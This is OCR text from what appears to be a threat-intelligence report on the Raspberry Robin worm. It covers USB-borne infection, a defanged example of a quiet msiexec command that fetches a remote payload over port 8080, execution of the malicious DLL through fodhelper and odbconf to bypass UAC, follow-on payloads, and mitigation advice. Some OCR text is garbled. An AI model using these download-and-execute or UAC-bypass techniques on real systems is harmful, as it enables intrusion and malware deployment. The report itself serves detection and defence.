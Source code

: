 49
Initial Raspberry Robin activity 
A Raspberry Robin infection often starts when a user plugs an infected USB 
drive into their endpoint. Based on community feedback we received after our 
blog post, one common source for Raspberry Robin infections appears to be 
USB drives previously used at print shops and mailing centers. After the drive is 
connected, cmd.exe receives a command to read and execute a randomly named 
file with a seemingly random two\-to\-three character file extension. There is 
frequently additional whitespace in this command.
cmd.exeqVR TYPE
QLiet.sAV\|Cmd
The file is a LNK file that contains a distinctive Windows Installer (msiexec.exe) 
command. The msiexec command typically includes the following: 
 
mixed\-case syntax
 
a short domain containing only a few characters 
 
communication over port 8080
 
a string of random alphanumeric characters potentially used as a token
 
the victim hostname andor username. 
Here is an example of what the command line might look like:
MsIEXeC qUieT AjHodmv\=Yn iXLspV\=rSbH fV HtTp:Fnx\[.]WF:8080BKCFL
qnP6C9zlfVeygFfdAE\=
Diving into the DLL 
If the outbound network connection is successful, msiexec.exe 
downloads and installs a randomly named malicious DLL, typically in C:
ProgramData. The DLL name is two\-to\-eight 
random characters, followed by a three \-character file extension. Extensions 
weve observed include .tmp, .etl, .log, and others. The Raspberry Robin DLL, 
also known as Roshtyak, can be executed by several different processes in an 
attempt to elevate privileges and bypass User Access Control (UAC), based on 
which type of evasion is most likely to be successful. Red Canary has observed 
fodhelper.exe and odbconf.exe used to execute the malicious DLL.
Follow\-on payloads 
The DLL has a wide variety of functions, including additional C2 activity, task 
creation for persistence, and the capability to download and execute additional 
50
payloads. In July 2022, Microsoft reported seeing SocGholish as a follow\-on 
payload, observing activity resembling the group they track as DEV\-0243, which 
is associated with the cybercriminal group known as Evil Corp. Red Canary also 
directly observed Raspberry Robin downloading a malicious SocGholish .js 
binary. This development significantly heightened the risk of a Raspberry Robin 
infection, making it a potential ransomware precursor based on historic DEV\-
0243 and SocGholish activity.
 In October 2022, Microsoft shared additional Raspberry Robin observations, 
most notably that they saw Raspberry Robin used in compromises with follow\-on 
activity including BumbleBee, Cobalt Strike, and IcedID. Microsoft additionally 
reported that Raspberry Robin was observed in post\-compromise activity 
attributed to DEV\-0950, a group that overlaps with activity tracked as TA505\.
Visit the Raspberry Robin threat page for detection opportunities and atomic 
tests to validate your coverage for this threat.
If Raspberry Robin is detected in your environment, we recommend taking
steps to block malicious network connections to help prevent follow\-on activity 
and the download of malicious files. We also recommend removing malicious 
files from the infected system. If additional follow\-on activity is detected in
your environment, we recommend that you isolate the device. Rapid detection
and response early in the infection chain prevents continued progression of
this threat.
TAKE ACTION
51
THREAT
Despite a rise in alternatives, Cobalt Strike remains a popular 
command and control (C2\) framework among adversaries, 